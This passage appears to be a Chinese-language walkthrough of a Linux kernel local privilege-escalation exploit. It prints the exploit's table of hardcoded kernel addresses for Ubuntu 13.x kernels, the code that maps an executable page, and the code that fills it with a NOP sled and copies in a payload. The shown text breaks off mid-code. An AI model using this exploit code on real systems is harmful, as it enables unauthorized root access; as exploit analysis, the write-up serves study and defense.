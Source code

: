 该exploit代码使用`net_sysctl_root`结构体的`net_ctl_permissions`函数指针进行利用。由于各个内核版本中不同函数对应的地址不同，因此定义了一个结构体存放各个内核内核版本的函数地址，这样就可以在多个写了特定内核地址的内核上完成提权操作。

```
struct offset {
    char *kernel_version;
    unsigned long dest; // net_sysctl_root + 96
    unsigned long original_value; // net_ctl_permissions
    unsigned long prepare_kernel_cred;
    unsigned long commit_creds;
};

struct offset offsets[] = {
    {"3.11.0-15-generic",0xffffffff81cdf400+96,0xffffffff816d4ff0,0xffffffff8108afb0,0xffffffff8108ace0}, // Ubuntu 13.10
    {"3.11.0-12-generic",0xffffffff81cdf3a0,0xffffffff816d32a0,0xffffffff8108b010,0xffffffff8108ad40}, // Ubuntu 13.10
    {"3.8.0-19-generic",0xffffffff81cc7940,0xffffffff816a7f40,0xffffffff810847c0, 0xffffffff81084500}, // Ubuntu 13.04
    {NULL,0,0,0,0}
};

```

Exploit程序开始就使用该函数映射结构体对当前内核进行检查，获取出要使用的函数地址指针`offsets[i]`。

然后使用`net_ctl_permissons`的地址进行页对齐，之后将高6*4位变成0，即设定为用户空间地址。

```
 mmapped = (off->original_value  & ~(sysconf(_SC_PAGE_SIZE) - 1));
 mmapped &= 0x000000ffffffffff;

```

之后以该地址为基址map一段内存空间，设定该map区域可写、可执行。先用0x90填充该map区域，构造滑梯。然后将提权代码拷贝到该map区域。

```
mmapped = (long)mmap((void *)mmapped, sysconf(_SC_PAGE_SIZE)*3, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_PRIVATE|MAP_ANONYMOUS|MAP_FIXED, 0, 0);

if(mmapped == -1) {
    perror("mmap()");
    exit(-1);
}

memset((char *)mmapped,0x90,sysconf(_SC_PAGE_SIZE)*3);

memcpy((char *)mmapped + sysconf(_SC_PAGE_SIZE), (char *)&trampoline, 300);

if(mprotect((void *)mmapped, sysconf(_SC_PAGE_SIZE)*3, PROT_READ|PROT_EXEC) != 0) {
    perror("mprotect()");
    exit(-1);

```
